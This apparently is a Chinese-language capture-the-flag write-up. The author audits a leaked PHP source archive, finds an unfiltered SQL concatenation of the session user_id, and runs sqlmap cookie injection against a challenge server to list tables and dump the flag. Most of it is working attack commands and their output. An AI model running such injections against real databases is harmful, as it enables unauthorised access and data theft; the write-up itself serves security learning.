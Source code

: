 随手扫一下后台，得到了一个 www.zip 的源码包，然后就是代码审计了。

一开始毫无经验，看了好久的源码之后，还是不知从何下手，顺手把 PHP 和 MySQL 基本用法学了。

第一想法是 `username` 和 `password` 可以注入，毕竟过滤函数不会对他们进行处理。

```shell
foreach ($_POST as $key => $value) {
    if ($key != "username"&&strstr($key, "password") == false) {
        $_POST[$key] = filtering($value);
    }
}
```

后来发现 `uesr_id` 可以注入，最终在 `login.php` 中找到 `user_id` 的来源，就是数据库中的键。

```php
// index.php
<h2>历史留言</h2>
<?php
    $user_id=$_SESSION['user_id'];
	$sql = "select * from content where user_id=$user_id";
	$arr = select($sql);
?>
    
// login.php
$_SESSION['username'] = $a['username'];  // 在这里
$_SESSION['user_id'] = $a['id'];		 // 手动高亮
```

GET、POST都被直接过滤了，试试 cookie 注入，手工注入不太会，先跑跑 sqlmap 试试。[参考博客](https://blog.csdn.net/u011781521/article/details/58135307)

```shell
# 1.cookie 注入，猜解表
sqlmap -u http://120.78.187.100:8082/content.php --cookie "message_id=1412" --table --level 2
# do you want to URL encode cookie values (implementation specific)? [Y/n] Y
[10:42:28] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP 5.6.38, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
Cookie parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
# do you want to use common table existence check? [Y/n/q] Y 10
# 表已经跑出来了
Database: 2018_hdb_waf 
[3 tables]
+---------------------------------------+
| user                                  |
| content                               |
| flag                                  |
+---------------------------------------+

# 2.选择表猜解字段(flag)
sqlmap -u http://120.78.187.100:8082/content.php --cookie "message_id=1412" --column -T flag --level 2
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
+--------+--------------+

# 3.猜解内容
sqlmap -u http://120.78.187.100:8082/content.php --cookie "message_id=1412" --dump -T flag --level 2
[10:44:45] [INFO] retrieved: 1
[10:44:45] [INFO] retrieved: flag{b4d_eregi_d0_noT_uSe_1t}
```